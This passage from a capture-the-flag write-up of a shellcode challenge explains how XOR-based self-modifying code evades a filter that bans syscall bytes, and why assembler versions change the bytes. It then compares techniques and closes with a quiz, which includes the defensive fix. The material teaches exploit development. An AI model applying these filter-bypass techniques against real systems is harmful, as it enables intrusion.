 10:  5a                     pop    rdx         ; filler, before the XOR runs
 11:  50                     push   rax         ; filler, before the XOR runs
```

The `lea rcx, [rip+0x9]` offset is not a magic number — it's `xor1_len (3) + xor2_len (4) + jmp_len (2) =
9`, computed directly from the three instructions that sit between the `lea` and the two filler bytes,
exactly matching the RIP-relative addressing rule that `[rip + X]` measures `X` bytes forward **from the
address of the instruction immediately following the `lea` itself**, not from the `lea`'s own start.

---

## 9. "It Works On My Machine" — Why Identical Shellcode Source Produced Different Bytes

This deserves its own section rather than a passing mention, because it's one of the most common,
least-discussed sources of exploit failure in real offensive work — and it's rarely about the exploit's
*logic* at all.

### 9.1 What actually happened

The exact same assembly source, handed to `pwntools.asm()`:

- On one system, assembled to 88 bytes containing zero occurrences of `0x0f`.
- On a second system, assembled to a shellcode containing a literal `0x0f` byte somewhere in the chain,
  which `forbidden()` correctly rejected with `Forbidden!`.

No part of the *exploit's design* changed between these two runs. The ROP-free PIE-defeat technique
(Section 6.1), the mprotect-restoration logic (Section 6.2), and the XOR-based syscall construction
(Section 6.3) are all identical in both cases. What changed is a layer most people don't think about when
writing an exploit at all: **the version of the assembler that turns assembly *text* into assembly
*bytes*.**



### 9.2 Why an assembler is even allowed to do this

Most x86-64 instructions have more than one valid encoding. `mov reg, imm32`, for instance, can be encoded
multiple distinct ways depending on operand size and register choice; `lea`'s RIP-relative addressing can
be computed with different intermediate representations depending on how the assembler's internal linker
pass resolves label distances; and newer binutils releases have, at various points, changed default
behavior around things like automatically inserting `endbr64` markers for Intel CET compliance (directly
relevant here, since Section 6.4 already established this binary's own CET markers) based on build-time
configuration. None of this is a bug in the assembler — every valid encoding of an instruction is, by
definition, equally "correct" from the CPU's point of view. But "equally correct" and "equally filtered"
are two different properties, and a filter this specific (banning one exact byte value) can only be
reasoned about in terms of the *exact* bytes a specific toolchain happens to produce, not the abstract
instruction being requested.

### 9.3 Why this generalizes far beyond this one challenge

This is not a quirk specific to shellcode or to pwntools. It's a specific instance of a much broader,
extremely common category of exploit-development failure: **relying on a tool's output without pinning
down exactly which version of that tool produced it.** The same failure mode shows up whenever:

- A compiler's optimization level or version changes stack layout, invalidating a hardcoded offset
  computed against a different build.
- A libc's patch version changes a function's internal offset (directly relevant to several other
  write-ups in this series involving `libc.rip`-based identification).
- A disassembler's heuristics for recovering function boundaries differ between versions, leading two
  different analysts to compute two different "correct" addresses from the same binary.

The common thread: **a tool's output is not a fixed, universal fact about the target — it's a fact about
the target *as interpreted by that specific tool version*.** Treating tool output as ground truth without
verifying it against the actual bytes/behavior it's meant to represent is exactly the gap this section's
failure fell into.

### 9.4 The fix, generalized

Section 8.2's fix — hardcoding verified raw bytes instead of re-deriving them from source at exploit-run
time — is one specific instance of a general principle: **whenever an exploit's correctness depends on
exact byte-level content, and that content is produced by a tool with its own independent versioning,
prefer pinning the content itself over pinning the tool.** This is also why, elsewhere in this write-up's
sibling challenges, a libc is downloaded and read from directly (rather than trusted from an offline
symbol database alone) — the same principle, applied to a different tool in a different link of the same
chain: don't trust a derived fact when you can instead verify and pin the underlying bytes directly.

---

## 10. Could the XOR Approach Be Improved Further?

When writing this exploit, I deliberately chose XOR over the far more common inc-based technique just to avoid repeating what's already in most public write-ups. Still, it's worth looking at the pros and cons objectively, as both approaches come with real, measurable trade-offs.


| Aspect | `inc` technique | XOR technique (this write-up) |
|---|---|---|
| Source bytes used | `0x0e`, `0x04` (each exactly `+1` from its target) | `0x5a`, `0x50` (arbitrary distance from target, fully chosen by the key) |
| Bytes per modified byte | 2 (`fe 00`-style opcode + ModRM, no immediate) | 3 (opcode + ModRM + one immediate byte) |
| Total shellcode size impact | **Smaller** — `inc [addr]` has no immediate operand | **Larger by 1 byte per modified byte** — `xor [addr], imm8` always carries an immediate |
| Robustness against a filter that also bans a *range* around `0x0f`/`0x05` (not just the exact bytes) | **Weaker** — `inc`'s source bytes are always exactly adjacent to the forbidden bytes, so a filter banning `0x0c`–`0x12` would catch it immediately | **Stronger** — the XOR key is a free parameter, so source bytes can be made arbitrarily distant from the forbidden bytes regardless of how wide a "neighborhood" a hypothetical stricter filter bans |
| Robustness against *this exact, documented* filter (`0x0f` and `cd 80` only) | Fully sufficient | Fully sufficient |

**Honest verdict:** for the filter as specified in this exact challenge, `inc` is marginally more
byte-efficient and no less effective — there is no functional advantage to XOR here. XOR's genuine
advantage is defensive depth against a *hypothetical, stricter* filter that also excludes bytes
*near* the forbidden ones (a filter anticipating the `inc`/`dec` trick specifically) — which this
exact challenge's filter does not do. Choosing XOR here is a legitimate, well-justified decision as a
demonstration of a more generally robust technique and as a deliberate point of difference from
`inc`-based write-ups, not because it was functionally required to beat *this* exact filter. Presented
honestly, rather than oversold as unconditionally superior, this remains a solid and instructive choice —
and the script above is independently verified to work end-to-end regardless of which transform is used.

**Is there a smarter alternative worth knowing about?** Within the constraint "must be self-modifying
code that avoids `0x0f`/`cd 80` in the sent bytes" (Section 6.3 — not optional, so this isn't a matter of
avoiding self-modification altogether), the two realistic choices are `inc`/`dec`-style arithmetic and
XOR-style bitwise transforms; both are equally valid given this exact filter, and the choice between them
genuinely is a matter of which failure mode you want to be resistant to, not a strict better-or-worse
ranking. There is no third, fundamentally different technique on x86-64 that avoids writing *some*
`0x0f`-containing or `cd 80` bytes to memory at runtime, because — as established in Section 6.3 — every
syscall-invoking instruction on this architecture requires one of those two exact patterns to exist at the
moment it executes.

---

## 11. Key Takeaways

- **A byte filter checked once, before execution, cannot protect a page that remains writable during
  execution.** The real vulnerability here is not the filter's specific rule set — it's that the page
  stays writable long enough for the shellcode to construct whatever the filter forbade, before the
  permission downgrade this program performs can take effect on content that doesn't exist yet.
- **For this exact pair of restrictions (`0x0f` banned, `cd 80` banned), self-modifying code is
  mathematically the only possible approach on x86-64**, not merely the cleverest one — every standard
  syscall-invoking instruction encoding on this architecture trips one rule or the other.
- **Never trust a claim about register contents — including ones repeated across multiple public
  write-ups — without checking it against the actual disassembly of the exact binary in front of you.**
  The `r13`-holds-`main` claim doesn't hold for this binary at all; `_start`'s own code shows `main`'s
  address only ever reaching `rdi`, as a normal function argument.
- **A `call` instruction's own return-address push is a reliable, zero-assumption way to recover a
  PIE-relocated address from inside shellcode**, whenever the shellcode is reached via a genuine `call`
  (rather than a bare `jmp`) — no leaked register, no additional syscalls, no guesswork required.
- **`checksec`'s mitigation flags describe what a binary was built with, not necessarily what the running
  system actually enforces.** `SHSTK`/`IBT` being marked `Enabled` reflects ELF-level CET markers; actual
  userland enforcement additionally requires specific CPU and kernel support that an ordinary Linux
  installation does not turn on by default — verified here against both kernel documentation and a
  dedicated CET-bypass CTF write-up, rather than assumed either way.
- **Choosing between equally-valid obfuscation techniques (XOR vs. `inc`) is a legitimate design decision
  with real, measurable trade-offs (byte count vs. robustness against a hypothetically stricter filter) —
  not a question with one universally "correct" answer.** Stating those trade-offs honestly is more
  useful than simply declaring one approach superior.
- **An assembler is a versioned piece of software, and different versions can produce different valid
  byte encodings for identical source.** When an exploit's correctness depends on the exact bytes sent
  (as it does whenever a byte-level filter is in play), pinning down the actual bytes — by hardcoding them
  after independent verification, rather than regenerating them from source at run time — removes an
  entire class of "works on one machine, not another" failures.

---

## 12. Quiz — Test Yourself

**Q1.** The `forbidden()` function's loop condition is `i <= 0x62`, checking indices `0` through `98`
inclusive of a 100-byte (`0x64`) buffer. Explain precisely why this is not, by itself, an exploitable gap
in the filter, even though it technically leaves the buffer's very last byte (index 99) unchecked by the
loop's own bounds.

<details>
<summary>Answer</summary>

While the loop's own iteration variable only reaches up to index 98, the **`cd 80` check inside each
iteration inspects `buf[i]` and `buf[i+1]` together** — meaning the iteration at `i = 98` checks both
`buf[98]` and `buf[99]`, which already covers the buffer's final byte as the *second* half of a two-byte
check, even though the loop variable itself never equals 99. The single-byte check (`buf[i] == 0x0f`)
genuinely never inspects `buf[99]` in isolation — so, in principle, a payload with `0x0f` as its very last
byte and nothing else forbidden elsewhere would slip past the filter. However, this isn't independently
useful as an exploit on its own: a single trailing `0x0f` byte with no instruction content around it to
usefully pair with doesn't by itself let you build a working `syscall` or `int 0x80` sequence — you would
still need the self-modifying-code approach in Section 6.3 to actually construct a usable instruction, at
which point this one-byte gap is not needed at all, since that approach already completely sidesteps the
filter regardless of exactly where its boundary sits.
</details>

---

**Q2.** Section 6.1 shows that `call rdx` (main's jump into the shellcode) pushes `main_base + 0x13b2`
onto the stack before transferring control. Explain, mechanically, why a `jmp rdx` instruction at that
same point in `main` would **not** have given the shellcode this same useful value, and what the
practical consequence would have been for this exploit.

<details>
<summary>Answer</summary>

A `jmp` instruction transfers control to its target *without* pushing anything onto the stack first —
unlike `call`, which specifically pushes the address of the next instruction as part of its own defined
behavior, precisely so a later `ret` can return to the caller. If `main` had used `jmp rdx` instead of
`call rdx`, the shellcode's entry would see whatever value already happened to be sitting at `[rsp]` from
some earlier point in `main`'s own stack usage — not a value conveniently pointing back into `main`'s own
PIE-relocated code at all. Practically, this would mean the clean, zero-assumption PIE-slide-recovery
technique in Section 6.1 would not be available in this exact form; the shellcode would need some
other means of locating a known address inside the binary (for instance, if some other nearby stack slot
happened to reliably hold a usable pointer, though that would need to be independently verified rather
than assumed, exactly as this write-up insists on doing for every address it relies on).
</details>

---

**Q3.** `checksec` reports `IBT: Enabled` for this binary, and IBT's documented rule requires every
indirect `call`/`jmp` target to begin with an `ENDBR64` instruction. The shellcode in this exploit is
jumped into via `call rdx` and, internally, via `jmp rcx` — neither target begins with `ENDBR64`. Explain
why this exploit still works in practice, and identify what specific condition would need to be true for
it to stop working.

<details>
<summary>Answer</summary>

`checksec`'s `IBT: Enabled` report reflects a marker in the binary's own ELF notes, recorded by the
compiler to indicate the binary was built with CET support — it does **not** mean the CPU and operating
system actually enforce IBT at runtime for this process. Per the Linux kernel's own documentation, using
CET features (including IBT) requires hardware support, a kernel specifically built and configured with
the relevant options, **and** userspace built with them simultaneously; a standard, unmodified Linux
installation (such as the one backing this TryHackMe challenge) does not enable userland IBT enforcement
by default — a dedicated CET-bypass CTF challenge's own public write-up confirms this directly, noting
that its author had to apply a custom kernel patch specifically to turn on userland IBT enforcement at
all, because it is not active out of the box. For this exploit to actually stop working, the exact
combination of CPU hardware support for CET, a kernel compiled and configured to enforce userland IBT, and
that enforcement being active for this specific process would all need to be true simultaneously — none
of which apply on an ordinary Linux system running this binary normally.
</details>

---

**Q4.** The write-up asserts that, given this challenge's exact filter (`0x0f` banned, `cd 80` banned),
self-modifying code is not merely a valid technique but the *only* possible one on x86-64. Reconstruct the
argument that supports this claim, and explain what property of the x86-64 instruction set it depends on.

<details>
<summary>Answer</summary>

The argument rests on exhaustively checking every standard way to transition from user-mode code into a
kernel syscall on x86-64 Linux: `syscall` (encoded `0f 05`), `sysenter` (encoded `0f 34`), and `int 0x80`
(encoded `cd 80`) are the complete set of single-instruction mechanisms available. Every one of these
three encodings either contains the literal byte `0x0f`, or consists of exactly the banned `cd 80` two-byte
sequence — meaning **any shellcode that sends a syscall-invoking instruction's bytes as part of its
initial payload will always trip one of the two filter rules**, regardless of which of the three
mechanisms is chosen, because the property being exploited (the filter having already finished running
before execution begins) is unrelated to which specific syscall mechanism is used — the filter bans the
*bytes*, not a particular technique. The only way to have a syscall-invoking instruction exist in memory
without its bytes having been part of what the filter inspected is for those bytes to come into existence
*after* the filter already returned — which is precisely the definition of self-modifying code in this
context. This argument depends specifically on x86-64 not offering any *fourth*, differently-encoded
syscall mechanism that happens to avoid both `0x0f` and `cd 80` entirely; as of the current x86-64
instruction set, no such alternative exists.
</details>

---

**Q5.** The exact same assembly source, handed to `pwntools.asm()`, produced a clean shellcode (zero
forbidden bytes) on one system and a shellcode containing a literal `0x0f` byte on another. Explain why an
assembler is permitted to do this without it being a bug, and identify the specific fix this write-up
applied to make the exploit's output independent of which system runs it.

<details>
<summary>Answer</summary>

Most x86-64 instructions have more than one valid machine-code encoding for the exact same semantic
operation — different opcode forms, different ways to express an immediate or a RIP-relative
displacement, and version-to-version changes in a given assembler's default behavior (such as when and
whether `ENDBR64` markers are automatically inserted for CET compliance) can all lead two different
assembler versions to emit different, but equally architecturally valid, bytes for identical input source.
This isn't a bug, because the CPU executes any of these valid encodings identically — "equally correct"
and "equally filtered" are simply two different properties, and a byte-level filter this specific can only
be reasoned about in terms of the *exact* bytes a particular toolchain happens to produce, not the
abstract instruction being requested.

The fix applied in Section 8.2 was to stop depending on any assembler at exploit-run time at all:
each instruction was assembled once, independently re-disassembled with `objdump` to confirm it decodes
exactly as intended, and then hardcoded as raw bytes directly in the script. Since no assembler re-derives
these bytes when the exploit actually runs, the exact 88 bytes sent over the wire are now a fixed,
version-independent fact about the exploit itself, rather than an emergent property of whatever
pwntools/binutils combination happens to be installed on whichever machine runs the script.
</details>

---

**Q6. (Interview-style)** Generalize beyond this specific challenge: you're reviewing a system that
applies a static content filter to untrusted input, then grants that input elevated privileges or
execution rights afterward (not necessarily shellcode specifically — this could be a web application
accepting a file for later processing, or a script sandboxing some stage of user-supplied code). What
single architectural question would you ask to determine whether this exact class of bypass (constructing
the forbidden content *after* the filter runs) is possible, independent of what the specific filter rule
or specific privilege happens to be?

<details>
<summary>Answer</summary>

The specific question to ask: **"After the filter has finished inspecting the input and approved it, does
anything downstream retain the ability to further modify that same content before it's used with the
elevated privilege — and if so, is that modification capability itself unconstrained by the filter?"**
This reframes the vulnerability class correctly: it is not fundamentally about *shellcode* or *bytes* at
all, but about any system where **validation and use are separated in time**, with the validated artifact
remaining mutable in between. If the artifact can still be changed after approval and before use — whether
that's a writable memory page, a file that can still be edited after a virus scan clears it but before a
privileged process opens it, or a configuration value re-read from a mutable store after an initial
policy check — then an attacker who can act in that gap can make the content say something different by
the time it's actually consumed, without ever having presented the forbidden content to the filter itself.
The general, durable fix (directly mirrored by what this binary should have done differently) is to
**remove the capacity for further modification *before* approving the content for its privileged use, not
after** — here, that would mean calling `mprotect(page, len, PROT_EXEC)` immediately after `read()`, before
`forbidden()` even runs, so that by the time the filter approves the content, there is no longer any way
for anything (including the content itself, once executing) to change what was approved.
</details>

---

## 13. Conclusion

**Void Execution** is a clean, two-layer demonstration of restricted shellcode execution: a static byte
filter closes off the direct, standard paths into a syscall, and a runtime permission downgrade closes off
naive self-modifying code — but the combination leaves exactly the gap that matters: the filter's check
happens once, before the downgrade, and has no way to object to bytes that don't exist yet. Reconstructing
this purely from `objdump`, `checksec`, and `nm` output made clear not only what the binary does, but
specifically which public claims about *how* to exploit it (the `r13` claim in particular) don't survive
contact with this binary's actual disassembly — and that the `inc`-vs-XOR choice, while genuinely a
meaningful design decision with its own trade-offs, isn't the detail that determines whether this exploit
works at all; getting the PIE-defeat mechanism right is.

---

